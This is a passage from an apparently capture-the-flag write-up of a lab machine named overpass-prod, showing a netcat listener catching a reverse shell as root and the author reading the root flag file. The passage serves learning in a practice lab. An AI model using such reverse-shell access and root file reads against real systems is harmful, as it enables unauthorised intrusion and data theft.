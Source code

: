 And momentarily later, the netcat listener perks up:
```
connect to [{My Machine's IP}] from (UNKNOWN) [{victim IP}] 60972
bash: cannot set terminal process group (22324): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# whoami
root
```
We have root!

## Capturing root
Now with our root user, we just have to scoop up the flag.
```
root@overpass-prod:~# cat /root/root.txt
```

